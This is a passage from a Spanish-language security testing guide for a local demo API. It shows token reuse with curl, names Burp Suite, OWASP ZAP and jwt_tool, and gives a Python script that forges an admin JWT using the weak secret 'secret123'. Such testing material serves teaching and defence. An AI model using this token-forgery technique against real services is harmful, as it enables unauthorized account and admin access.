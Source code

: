 ### Session Fixation:
```bash
# Usar el mismo token en múltiples contextos
TOKEN="eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9..."
curl -X GET http://localhost:3000/api/usuarios/perfil -H "Authorization: Bearer $TOKEN"
curl -X GET http://localhost:3000/api/tareas -H "Authorization: Bearer $TOKEN"
```

---

## 🔧 **HERRAMIENTAS DE TESTING**

### Burp Suite:
- Interceptar y modificar requests
- Probar diferentes headers de bypass
- Análisis de JWT tokens

### OWASP ZAP:
- Escaneo automatizado de vulnerabilidades de autenticación
- Fuzzing de endpoints
- Análisis de sesiones

### jwt_tool:
```bash
# Instalar
pip install pyjwt

# Analizar JWT
python jwt_tool.py eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9... -M pb
```

### Custom Scripts:
```python
import jwt
import requests

# Crear JWT con secreto débil
payload = {"id": 999, "admin": True}
token = jwt.encode(payload, "secret123", algorithm="HS256")

# Usar token
headers = {"Authorization": f"Bearer {token}"}
response = requests.get("http://localhost:3000/api/usuarios/perfil", headers=headers)
print(response.json())
```

---

## ✅ **LISTA DE VERIFICACIÓN DE LA DEMO**
